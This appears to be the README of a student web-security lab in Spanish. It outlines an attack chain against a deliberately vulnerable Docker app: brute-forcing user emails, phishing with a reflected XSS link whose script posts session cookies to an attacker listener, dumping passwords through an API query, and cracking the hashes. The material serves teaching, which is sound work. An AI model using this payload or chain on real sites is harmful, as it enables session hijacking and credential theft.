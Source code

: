 # TP Seguridad Apps Web - Grupo 3

## Vector de ataque
1) Hacer fuerza bruta con Burp para obtener mails de usuarios
2) Enviar mails con link malicioso: `http://localhost:3000/html/home/user/dashboard/index.html?nombre=Juan%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest();xhr.open(%22POST%22,%27http://localhost:4000/damecookie%27);xhr.withCredentials%20=%20true;xhr.send()%3C/script%3E`
3) Leer las cookies e intentar entrar al sitio
4) Ver los requests que se hacen
5) Hacer GET /api/v1/User y GET /api/v1/User?distinct=password para obtener un array de usuarios y un array de sus respectivas contraseñas
6) Buscar contraseñas hasheadas en https://hashtoolkit.com/reverse-hash


## Cómo levantar el ambiente
1) Tener instalado Docker.
  a) Para Linux:
    `curl -fsSL https://get.docker.com -o get-docker.sh`
    `sh get-docker.sh`
  b) Para Windows: https://hub.docker.com/editions/community/docker-ce-desktop-windows
2) Levantar el entorno corriendo el comando en la carpeta raíz: `docker-compose up`.
Esto levanta la aplicación web, la base de datos Mongo y la aplicación del atacante que escucha las cookies